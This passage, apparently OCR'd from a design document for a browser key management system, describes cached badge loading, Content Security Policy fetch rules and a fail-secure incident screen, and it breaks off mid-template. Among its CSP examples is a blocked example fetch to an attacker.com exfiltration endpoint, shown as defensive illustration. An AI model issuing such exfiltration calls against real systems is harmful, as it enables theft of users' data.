 ```typescript

/**
 * Load cached badge.
 */
async function loadCachedBadge(): Promise<AttestationInputs['badge']> {
  const cache = await indexedDB.get('kms:cache:badge');
  return cache?.badge || null;
}
```

### Fetch Permission (CSP connect-src 'self')

**Allowed requests:**

```typescript
// ✅ ALLOWED: Same-origin badge fetch
const badge = await fetch('https://kms.ats.run/badge.json');

// ✅ ALLOWED: Self-verification
const self = await fetch(import.meta.url);

// ✅ ALLOWED: Worker fetch
const worker = new Worker('/worker.js');

// ❌ BLOCKED: External fetch
const evil = await fetch('https://attacker.com/exfiltrate');
// Error: Blocked by Content Security Policy
```

### Verification Evidence Display

**If verification passes (quorum ≥ 2/3):**

```typescript
// Normal operation - no UI
// Status visible via PWA settings (postMessage RPC)
```

**If verification fails (quorum < 2/3):**

```typescript
// Render fail-secure incident UI
function renderFailSecureUI(evidence: VerificationEvidence) {
  document.body.innerHTML = `
    <div class="fail-secure">
      <h1>🚨 KMS Integrity Verification Failed</h1>
      <p>Crypto operations are locked for your protection.</p>

      <h2>Verification Status</h2>
      <p>Required: ${evidence.quorum.required}/3 sources</p>
      <p>Passed: ${evidence.quorum.passed}/3 sources</p>

      <h2>Sources</h2>
      ${evidence.sources.map(s => `
        <div class="${s.pass ? 'pass' : 'fail'}">
          ${s.pass ? '✅' : '❌'} ${s.name}
          ${s.error ? `<p>Error: ${s.error}</p>` : ''}
        </div>
      `).join('')}

      <h2>Current Deployment</h2>
      <table>
        <tr><th>Version:</th><td>${evidence.currentVersion}</td></tr>
        <tr><th>Hash:</th><td><code>${evidence.currentHash}</code></td></tr>
        <tr><th>Checked:</th><td>${evidence.timestamp}</td></tr>
      </table>
```